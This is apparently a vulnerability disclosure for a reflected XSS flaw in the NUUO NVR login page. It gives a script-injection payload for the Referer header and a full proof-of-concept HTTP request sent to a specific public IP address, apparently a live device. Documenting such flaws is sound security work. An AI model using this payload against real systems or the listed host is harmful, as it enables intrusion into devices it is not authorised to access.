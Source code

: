 # NUUO Network Video Recorder Login page login.php is Reflected XSS attack


## Affected parameter
Referer

## payload 
```
"><script>alert("XSS")</script><"
```

## The effect

![image](https://user-images.githubusercontent.com/72059221/173171676-271f80f5-2abb-46c6-b0a7-91a139360baa.png)


![image](https://user-images.githubusercontent.com/72059221/173171694-a047b8d8-fca8-4e9b-9d36-e63d27f45524.png)

## POC

```
POST /login.php HTTP/1.1
Host: 218.253.76.122:8000
Content-Length: 45
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://218.253.76.122:8000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: "><script>alert("XSS")</script><"
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: lang=en; PHPSESSID=b630e0a3b454ae69c6aacbe257435b55
Connection: close

language=11111&user=111&pass=222&submit=Login
```

